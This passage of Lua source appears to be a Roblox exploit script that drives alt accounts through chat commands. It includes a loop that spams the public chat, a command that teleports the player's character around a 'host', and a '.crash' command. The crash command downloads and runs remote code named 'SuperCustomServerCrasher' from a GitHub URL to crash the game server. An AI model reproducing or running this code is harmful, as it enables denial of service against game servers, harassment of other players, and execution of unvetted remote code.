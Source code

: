 			elseif not CmdSettings["AdOn"] and Args[1] == ".ad" and Args[2] == "on" then
				local newStr = string.gsub(Message, ".ad on", "")
				CmdSettings["AdOn"] = true
				while CmdSettings["AdOn"] do
					game.ReplicatedStorage.DefaultChatSystemChatEvents.SayMessageRequest:FireServer(newStr, 'All'); 
					wait(1.5)	
				end
			elseif Message == ".ad off" then				
				CmdSettings["AdOn"] = nil
			elseif Message == ".loopdel" then
				if DropFolder then
					DropFolder:Destroy()
					DropFolder = nil
				end
			elseif Message == ".circle host" and Host and Host.Character and Host.Character:FindFirstChild("Humanoid") and Host.Character.Humanoid.Health > 0 then
				local angle = 0
				local cfr = Host.Character.HumanoidRootPart.CFrame*CFrame.new(0,1,0)
				local Index = 0
				local size = 3

				local PointInTable = getgenv().PointInTable

				local ZAxis
				local angle = 0
				if PointInTable <= 10 then
					ZAxis = 2
					angle = (10-PointInTable)
				elseif PointInTable <= 20 then
					ZAxis = -1
					angle = (20-PointInTable)
				elseif PointInTable <= 30 then
					ZAxis = -4
					angle = (30-PointInTable)
				elseif PointInTable <= 40 then
					ZAxis = -8
					angle = (40-PointInTable)
				end
				angle = angle*36
				local Clone = game.Players.LocalPlayer.Character
				Clone.HumanoidRootPart.CFrame = cfr * CFrame.fromEulerAnglesXYZ(0,math.rad(angle),0) * CFrame.new(0,-size,-10)
				Clone.HumanoidRootPart.CFrame=Clone.HumanoidRootPart.CFrame*CFrame.new(0,0,2)
				Clone.HumanoidRootPart.CFrame=Clone.HumanoidRootPart.CFrame*CFrame.Angles(0,math.rad(180),0)
			elseif Args[1] == ".crash" and Args[2] == "swag" and not Crashed then
				local Player = GetPlayerFromString(Args[3],true)
				if Player and Player == game.Players.LocalPlayer then
					if game.CoreGui:FindFirstChild("RenderScreen") then
						game.CoreGui.RenderScreen:Destroy()
					end
					game:GetService("RunService"):Set3dRenderingEnabled(true)
					Crashed = true
					loadstring(game:HttpGet('https://raw.githubusercontent.com/lerkermer/lua-projects/master/SuperCustomServerCrasher'))()
					for Index,Var in pairs(CmdSettings) do
						CmdSettings[Var] = nil
					end
					CmdSettings = {}
					setfpscap(60)
					wait(1)
					setfpscap(60)
					wait(1)
					setfpscap(60)
					wait(1)